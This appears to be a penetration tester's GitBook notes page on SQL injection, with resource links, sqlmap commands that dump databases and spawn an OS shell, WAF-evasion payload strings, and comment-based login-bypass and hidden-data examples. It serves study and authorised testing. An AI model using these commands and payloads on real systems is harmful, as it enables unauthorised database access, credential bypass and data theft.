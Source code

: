 # SQL Injection

## Guides and Resources

{% tabs %}
{% tab title="Guides" %}
* [https://www.sqlinjection.net/](https://www.sqlinjection.net/)
* [https://owasp.org/www-community/attacks/SQL\_Injection](https://owasp.org/www-community/attacks/SQL\_Injection)
* [https://owasp.org/www-community/Injection\_Flaws](https://owasp.org/www-community/Injection\_Flaws)
* [http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html](http://securityidiots.com/Web-Pentest/SQL-Injection/Part-1-Basic-of-SQL-for-SQLi.html)
* [https://www.w3schools.com/sql/default.asp](https://www.w3schools.com/sql/default.asp)
* [https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)
* [https://cheatsheetseries.owasp.org/cheatsheets/Injection\_Prevention\_Cheat\_Sheet.html#sql-injection](https://cheatsheetseries.owasp.org/cheatsheets/Injection\_Prevention\_Cheat\_Sheet.html#sql-injection)
* [https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html)
* [https://pentestbook.six2dez.com/enumeration/web/sqli](https://pentestbook.six2dez.com/enumeration/web/sqli)
* [https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)
* [https://www.pcwdld.com/sql-cheat-sheet](https://www.pcwdld.com/sql-cheat-sheet)
* _SQL Injection Vulnerabilities - Bug Bounty Hunting Essentials, pg 29_
{% endtab %}

{% tab title="Payload Cheatsheets" %}
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
* [https://github.com/payloadbox/sql-injection-payload-list/](https://github.com/payloadbox/sql-injection-payload-list/)
* [https://websec.ca/kb/sql\_injection](https://websec.ca/kb/sql\_injection)
* [http://pentestmonkey.net/category/cheat-sheet/sql-injection](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)
{% endtab %}
{% endtabs %}

{% content-ref url="sql-tips-and-tricks.md" %}
[sql-tips-and-tricks.md](sql-tips-and-tricks.md)
{% endcontent-ref %}

## ****[**SQLmap**](https://github.com/sqlmapproject/sqlmap)  **** &#x20;

SQL Injection tool that can spawn a meterpreter or VNC session back to attacker. Can return a decent number of false positives. Always verify. If you do not specify a value, SQLmap will attempt all by default

{% tabs %}
{% tab title="Guides and Resources" %}
* [SQLMate](https://github.com/s0md3v/sqlmate) - Companion tool for SQLMap
  * &#x20;Maps out and locates admin panel
  * Query dorking for finding targets
  * hash lookup
* [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
* [https://github.com/sqlmapproject/sqlmap/wiki/Usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* __[https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/)
* [https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423](https://forum.bugcrowd.com/t/sqlmap-tamper-scripts-sql-injection-and-waf-bypass/423)
* [https://tryhackme.com/room/sqlmap](https://tryhackme.com/room/sqlmap)
* _RTFM: SQLMap - pg. 71_
* _Operator Handbook: SQLMap - pg. 284_
{% endtab %}

{% tab title="Config/help cmds" %}
Specify the database type if not SQL

```
--dbms=[db type]
```

If you need to test and authenticated SQL injection, log into website via a browserand grab the cookie (pull from burp suite)

```
--data=[COOKIE]
```

Help

```
# sqlmap --wizard
```


{% endtab %}

{% tab title="Cmds - GET" %}
### Commands GET parameter - injection passed in the URL itself

Test if sql inject is valid (will return banner on success)

```
# sqlmap -u "http://domain.com?user=test&pass=test" -b
```

Retrieve a database username

```
# sqlmap -u "http://domain.com?user=test&pass=test" --current-user
```

Crawl target

```
sqlmap -u http://10.10.10.10 --crawl=1
```

Dump Database

```
sqlmap -u http://10.10.10.10 --dbms=mysql --dump
```

Spawn interactive shell

```
# sqlmap -u "http://domain.com?user=test&pass=test" --os-shell
```

WAF bypass and shell setup

```
# sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
{% endtab %}

{% tab title="Cmds - POST" %}
### Commands POST parameter - injection passed in the data section

Test if sql inject is valid (will return banner on success)

```
# sqlmap -u “http://domain.com” --data="user=test&pass=test" -b
```
{% endtab %}
{% endtabs %}

<details>

<summary>SQLmap with Burp</summary>

* Start SQLmap API on your kali box while Burp Proxy Pro can be runnign anywhere
* When Burp finds an SQL injection, it will connect to SQLmap's running API to automaticallu attack the vulnerable parameters.
* Start SQLmap API
  * \# cd /opt/sqlmap
  * \# python sqlmapapi.py -s \[ip] -p \[port]

</details>

{% embed url="https://youtu.be/2YD4vygeghM" %}

## Other Tools

<details>

<summary>Other Tools</summary>

* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) - A PowerShell Toolkit for Attacking SQL Server
  * [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
  * [https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet)
* [**SQLninja**](http://sqlninja.sourceforge.net/)****
  * [https://www.jedge.com/wordpress/sqlninja-sql-injection/](https://www.jedge.com/wordpress/sqlninja-sql-injection/)
  * Great for evading IDS and uploading shells
  * Often times IDS will either recognize SQLmap OR SQLninja but not both
  * With SQLninja you must specify the vulnerable variable to inject.
  * Takes more to set up with manipulation of the config file.
* ****[**NOSQLmap**](https://github.com/codingo/NoSQLMap)****
  * Used for NOSQL databases
* [https://github.com/torque59/Nosql-Exploitation-Framework](https://github.com/torque59/Nosql-Exploitation-Framework)
* [https://github.com/Charlie-belmer/nosqli](https://github.com/Charlie-belmer/nosqli)
* [https://github.com/FSecureLABS/N1QLMap](https://github.com/FSecureLABS/N1QLMap)
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/NoSQL%20Injection.md)
* [DSSS](https://github.com/stamparm/DSSS) - Damn Small SQLi Scanner is a fully functional [SQL injection](https://en.wikipedia.org/wiki/SQL\_injection) vulnerability scanner (supporting GET and POST parameters) written in under 100 lines of code.
* [https://github.com/the-robot/sqliv](https://github.com/the-robot/sqliv)
* [Blisqy](https://github.com/JohnTroony/Blisqy) - Exploit Time-based blind-SQL injection in HTTP-Headers (MySQL/MariaDB).
* [https://github.com/youngyangyang04/NoSQLAttack](https://github.com/youngyangyang04/NoSQLAttack) - **A SQLi vulnerability scanner for mongoDB**
* [https://github.com/WhitewidowScanner/whitewidow](https://github.com/WhitewidowScanner/whitewidow) - **Another SQL vulnerability scanner**

</details>

## **SQL Basics**

{% content-ref url="sql-methodology.md" %}
[sql-methodology.md](sql-methodology.md)
{% endcontent-ref %}

## Attack Techniques

<details>

<summary>Filter evasion</summary>

* Many applications use web application firewalls (WAF) to help protect against any kind of SQL injection vulnerability. The only problem is that WAFs only look for certain words, characters, or patterns, meaning certain special characters used in combination can be used to evade WAF filter protection.
* For example, a very basic WAF may filter out specific SQL keywords such as `OR`, `SELECT`, `UNION` or `WHERE` to prevent them from being used in SQL injection attacks.
* **Methods**
  * **Capitalization** - If the WAF's filter, like the one described above, is implemented poorly, then there may be ways to evade it by using variations of the word being filtered out. The most straightforward example is where we can bypass the filter by capitalizing some letters in the keyword, like this:
    * &#x20;`Or`, `SeLeCt`, `UNioN` and `wHEre`.
  * **URL Encoding** - In cases where the query forms part of a URL, URL encoding may be a viable option for evading the filter. For example `%55` is ‘U’ and `%53` is ‘S’. The WAF may not identify these encoded characters, and may send them to the server which decodes and processes them as the intended keywords.
  * **Multi-line Comments** -  the use of multi-line comments, such as `“/*”` and `“*/”`, may cause the WAF filter to miss the keywords. MySQL will read the content between the two comment lines and execute it as SQL, whereas the DBMS may not flag it up.
    * /\*!%55NiOn\*/ /\*!%53eLEct\*//\*\*//\*!12345UNION SELECT\*//\*\*//\*\*//\*!50000UNION SELECT\*//\*\*//\*\*/UNION/\*\*//\*!50000SELECT\*//\*\*/
    * The ‘+’ can be used to build an injection query without the use of quotes.\
      `+union+distinct+select++union+distinctROW+select+`
  * **Inline Comments** - To bypass certain filters, you can abuse the inline comment system within MySQL using #.
    * `+#uNiOn+#sEleCt`
  * **Reverse Function** - To bypass a filter looking for certain strings, you can use the REVERSE function which will evaluate the correct way around at run time. However, when going through the filter, it will be seen as ‘noinu’ instead of ‘union’.
    * `REVERSE('noinu')+REVERSE('tceles')`
  * **String Splitting** - You can split strings within the query to bypass various filters. MySQL will still execute them as keywords.
    * `un?+un/**/ion+se/**/lect+`



</details>

<details>

<summary>String Concatenation</summary>

An input field may restrict the usage of certain datatypes and/or words/punctuation. This can make the exploitation of SQL injection vulnerabilities a little bit more difficult. However, two functions can be used in conjunction to bypass filters such as these:`CHAR()` and `CONCAT()`.

#### Syntax & examples

* Within MySQL, you have to use quotation marks to input a string into a statement. However, with the use of string functions and encoding methods, you can get past this hurdle.
* To concatenate various strings inside a statement, the MySQL function `CONCAT` is available.
  * `CONCAT(str1, str2, str3)`
  * `SELECT CONCAT(login, email) FROM users`
* Another way to create strings without the use of quotes is the MySQL's `CHAR` function, which returns a character related to the integer passed to it. For example, `CHAR(75)` returns K.\
  `CHAR` and `CONCAT` are often used together to create full sets of strings which bypass specific string filtering. This means you don't need quotation marks in the query.
  * `SELECT CONCAT(CHAR(77),CHAR(76),CHAR(75))`
  * This will select data from a database that is of ‘MLK’.
* Encoding methods are another way to manipulate strings.\
  Strings can be encoded into their Hex values either by passing a hex value or using the `HEX()` function.
* For example, the string 'password' can be passed to an SQL statement like this: `SELECT 0x70617373776f726`

</details>

<details>

<summary>Retrieve Hidden Data</summary>

* When retrieving items from a database via an SQL query, some results may be filtered with a restriction clause at the end of the of the query&#x20;
* In a vulnerable parameter, we can insert ‘--’ which is the SQL code for a comment. This will “comment out” the rest of the query, there for removing any restrictions placed on it.
* Example: &#x20;
  * https://insecure-website.com/products?category=Gifts
  * Query made by this URL:`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`&#x20;
  * URL with added comment attack: https://insecure-website.com/products?category=Gifts'--
    * Resulted query:`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`
  * Expanding URL to show everything&#x20;
    * https://insecure-website.com/products?category=Gifts'+OR+1=1--
    * &#x20;Resulted query: `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`
*  [https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

</details>

<details>

<summary>Subvert App Logic/Login Bypass</summary>

* When an application checks login credentials, it submits in a query, usually with the fields of a username and password. If the query returns with the user details, the login is successful.
* One way of bypassing the login requirement of the password, is to comment out the part of the query, after the username
* Example
  * Original login query:\
    &#x20;◇ `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`\
    • Query with bypassed password field\
    &#x20;◇ `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`
* [https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)
* [http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/bypass-login-using-sql-injection.html)
* [https://portswigger.net/web-security/sql-injection/lab-login-bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

</details>

## **Manual Injection Methodology**

{% content-ref url="manual-injection-methodology.md" %}
[manual-injection-methodology.md](manual-injection-methodology.md)
{% endcontent-ref %}
